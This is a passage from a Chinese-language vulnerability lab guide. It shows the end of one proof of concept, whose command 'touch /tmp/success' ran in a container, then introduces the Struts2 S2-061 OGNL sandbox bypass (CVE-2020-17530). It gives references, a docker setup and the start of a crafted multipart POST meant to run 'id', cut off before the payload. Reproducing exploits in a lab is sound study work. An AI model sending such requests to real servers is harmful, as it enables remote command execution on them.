 ```python
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/success`已成功执行。



![img](assets/1670311175056-cda59f90-c9bd-4bfe-b459-abcd0890f740.png)

------

# Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强`OGNL`表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是`Struts 2.0.0`到`Struts 2.5.25`。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞环境

执行如下命令启动一个Struts2 2.5.25版本环境：

```plain
docker-compose up -d
```

环境启动后，访问`http://target-ip:8080/index.action`查看到首页。

## 漏洞复现

发送如下数据包，即可执行`id`命令：

```plain
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

```